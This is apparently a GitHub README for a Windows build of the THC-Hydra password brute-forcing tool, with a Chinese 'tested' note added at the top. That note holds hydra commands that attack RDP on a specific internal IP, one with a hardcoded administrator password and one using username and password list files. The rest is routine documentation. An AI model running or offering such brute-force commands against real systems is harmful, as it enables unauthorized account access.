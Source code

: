 #亲测试成功
可参照：https://www.cnblogs.com/HC2018/articles/10125347.html

亲测命令
在当前路径执行即可
hydra -l administrator -p Wutos2017 10.11.2.34 rdp
也可以通过查询文件执行
hydra -L admin.txt -P pass.txt 10.11.2.34 rdp

THC-HYDRA-windows
=================

Description
-----------
The THC-HYDRA tool compiled for Windows

Features
--------
* Latest `9.1` version (2020-07-29)
* Compiled for `x64` only from version 9.1, [older releases](#older-versions) were compiled for `x86` so they should work on `x86` and `x64` platforms
* Compiled with SSH, MySQL, PostgreSQL and RDP optional modules
* Embedded Cygwin DLLs 

Usage
-----
1. Download the [whole archive](https://github.com/maaaaz/thc-hydra-windows/archive/master.zip)
2. Extract it and run `hydra.exe`
3. Profit

Prerequisites
-------------
* [Microsoft Visual C++ 2008 Redistributable Package](https://www.microsoft.com/en-us/download/details.aspx?id=29)

Older versions
--------------
* Browse the [release section](https://github.com/maaaaz/thc-hydra-windows/releases) to find some old versions

Disclaimer & licence 
---------------------
The very same as mentioned on https://github.com/vanhauser-thc/thc-hydra.  
I don't own anything on THC brand or hydra, neither am I affiliated or working on the project.  

Last but not least, antivirus softwares might report some binaries as hacktools or even malwares: this is a known and common issue. If you don't trust this compilation, just don't download it.

Credits
-------
* The Hackers Choice "THC" https://github.com/vanhauser-thc/thc-hydra
